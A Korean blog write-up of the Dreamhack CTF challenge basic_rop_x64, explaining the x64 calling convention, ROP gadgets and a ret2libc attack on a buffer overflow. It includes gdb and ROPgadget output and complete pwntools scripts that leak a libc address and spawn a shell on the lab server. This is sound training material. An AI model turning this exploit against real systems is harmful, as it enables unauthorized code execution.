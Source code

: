 ```yaml
---
published: true
image: /img
layout: post
title: Dreamhack 시스템 해킹 basic_rop_x64
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-05-21 21:00
---
```


이번에 풀어볼 문제는 기존의 32비트 환경 pwn이 아니라 64비트 환경 pwn이다. 기본적으로 32비트와 64비트는 함수 호출 규약에 다른점이 있다. 기존 32비트 환경에서는 함수 실행에 필요한 인자들을 스택에 저장해 하나씩 불러와 사용한다면 64비트 환경은 레지스터에 먼저 저장한 후 레지스터보다 많은 인자가 필요하면 스택을 이용한다.

이러한 차이점으로 32비트 환경에서는 버퍼 오버플로우 등으로 덮어 씌우기만 하면 성공했던 시스템 해킹이 64비트로 오면서 gadget(가젯)을 이용해 함수 실행에 필요한 인자를 넣어줘야 한다


이번 문제는 ROP(Return-oriented programming)에 관한 문제이며 이 ROP 기법은 공격자가 실행 공간 보호(NXbit) 및 코드 서명(Code signing)과 같은 보안 방어가있는 상태에서 코드를 실행할 수있게 해주는 기술이다.

우선 위에서 함수에 사용될 인자를 레지스터에 저장하기 위해 가젯이 필요하다고 했다. 가젯을 설명하기 전에 인자에 저장에 사용되는 레지스터 순서를 먼저 살펴보자

```
+----------------------------------------------+
|   인텔 리눅스 64bit    |      윈도우 64bit     |
|                       |                       |
|        RDI            |           RCX         |
|        RSI            |           RDX         |
|        RDX            |           R8          |
|        RCX            |           R9          |
|        R8             |                       | 
|        R9             |                       |
+----------------------------------------------+
```
위 순서대로 레지스터에 값을 저장하며 이에 필요한 명령어 집합을 가젯이라 한다.

예를 들어 puts 함수는 인자를 1개 가지며 RDI에 인자를 넣아야 한다. 이에 사용되는 가젯은 다음과 같다.
```
pop rdi ; ret
```
위 가젯을 이용해 RSP의 값을 POP해 RDI로 넣어주는 과정이다.

이제 문제로 돌아가 문제 코드를 살펴보자.
```c++
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

위와 같은 구조를 가지고 있으며, 0x40 크기의 버퍼에 0x400의 값을 쓸 수 있어 버퍼 오버플로우를 통한 ROP가 가능하다.

우선 gdb의 info function을 통해 내장되어 있는 함수를 보자

```c++
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x0000000000400590  _init
0x00000000004005c0  puts@plt
0x00000000004005d0  write@plt
0x00000000004005e0  alarm@plt
0x00000000004005f0  read@plt
0x0000000000400600  __libc_start_main@plt
0x0000000000400610  signal@plt
0x0000000000400620  setvbuf@plt
0x0000000000400630  exit@plt
0x0000000000400640  __gmon_start__@plt
0x0000000000400650  _start
0x0000000000400680  deregister_tm_clones
0x00000000004006c0  register_tm_clones
0x0000000000400700  __do_global_dtors_aux
0x0000000000400720  frame_dummy
0x0000000000400746  alarm_handler
0x000000000040075e  initialize
0x00000000004007ba  main
0x0000000000400820  __libc_csu_init
0x0000000000400890  __libc_csu_fini
0x0000000000400894  _fini
```

write는 인자를 3개 필요로 해 데이터를 출력하는데 puts 함수를 사용할 것이다.

이제 함수를 사용하기 위한 가젯을 찾아야 하는데 
```
ROPgadget --binary basic_rop_x64 | grep rdi 
```
명령어로 가능하다. 결과는 다음과 같다.

```c++

/file# ROPgadget --binary basic_rop_x64 | grep rdi 
0x0000000000400726 : cmp dword ptr [rdi], 0 ; jne 0x400730 ; jmp 0x4006c0
0x0000000000400725 : cmp qword ptr [rdi], 0 ; jne 0x400730 ; jmp 0x4006c0
0x0000000000400883 : pop rdi ; ret
```

우리가 필요로 하는 가젯의 주소는 0x0000000000400883이다.

이제 어떤식으로 익스를 작성할지 고민해보자.
pop명령어는 RSP의 주소에 들어있는 값을 RDI로 불러온다. gdb를 통해 확인해보면, read함수를 실행하는 중 RSP의 값은 ret+8의 주소를 가리키고 있다.

따라서 ret에 가젯 주소를, 그 다음으로 계속 변하는 libcbase의 주소를 구하기 위해 read함수의 got를 출력하기 위해 disas main을 통해 찾은 read@got 값을 넣어준다.

그 다음으로 puts을 실행하기 위해 puts@plt 값을 주어 인자로 준 read@got의 실제 주소를 puts함수를 통해 출력한다. 이후 main함수 주소를 추가해 익스플로잇 작성을 위해 main으로 다시 돌아온다.

스택 구조로 보면 다음과 같다. 스택은 위에서 아래가 아닌 아래 베이스 포인터에서 위로 쌓이는걸 고려해 보아야 한다.

```
puts@plt
read@got
gadget
sfp[8바이트] -> 임의 값
'입력 값'
```

따라서 임의 값으로 0x40 + 0x8(64비트 환경은 ret과 sfp 길이가 8바이트)만큼 sfp영역까지 덮어 씌운다. 다음 가젯 주소를 추가하고 read@got와 puts@plt를 추가한다

여기까지 파이썬 코드로 표현하면 다음과 같다.

```python
from pwn import *

conn = remote("host1.dreamhack.games", 13516);
libc=ELF('./libc.so.6')


rdi_ret = 0x400883  #가젯 주소
read_got = 0x601030
puts_plt = 0x4005c0

func_main = 0x4007ba

payload = b'A'*(0x48)
payload += p64(rdi_ret)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(func_main)

conn.send(payload)
sleep(1)

print(conn.recvuntil('A'*0x40))
```

위 코드를 실행하면 puts을 통해 read@got가 출력된 후 다시 main 함수로 돌아온다. 이제 출력된 read@got의 실제 메모리상 주소를 통해 libcbase를 구해보자. read 함수 부분은 다시 공격할 것이다.

문제를 보면 libc.so.6 파일을 같이 첨부해준다.

이를 통해 read@got의 상대주소를 알아내고 출력된 read@got의 실제주소 - 상대주소 를 통해 libc 베이스 주소를 구한다.

다음으로 system 함수를 사용해 /bin/sh를 실행하기 위해 libc에서 system 함수의 상대주소를 구하고 libcbase와 더해 실행중인 프로그램의 메모리 상 system 함수 주소를 구한다.

이후 libc에서 /bin/sh의 문자열 주소를 찾는다.

다음 처음과 마찬가지로 가젯을 통해 systme 함수의 인자로 사용될 /bin/sh의 주소와 system 함수의 주소를 넣어 쉘을 익스 한다.

이 과정을 파이썬 코드로 나타내면 다음과 같다.

```python
from pwn import *

conn = remote("host1.dreamhack.games", 13516);
libc=ELF('./libc.so.6')


rdi_ret = 0x400883
read_got = 0x601030
puts_plt = 0x4005c0

func_main = 0x4007ba

payload = b'A'*(0x48)
payload += p64(rdi_ret)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(func_main)


conn.send(payload)

sleep(1)

print(conn.recvuntil('A'*0x40))

leak = u64(conn.recv(6)+b'\x00\x00')
print("leak => "+str(hex(leak)))

libcbase = leak - libc.sym['read']
print("libcbase => "+str(hex(libcbase)))

system = libcbase+libc.sym['system']
print("system => "+str(hex(system)))

binsh = libcbase+list(libc.search(b"/bin/sh"))[0]
print("binsh => "+str(hex(binsh)))

payload2 = b'B'*0x48
payload2 += p64(rdi_ret)
payload2 += p64(binsh)
payload2 += p64(system)

conn.send(payload2)
conn.interactive()
```

위 코드를 통해 flag를 얻을 수 있다.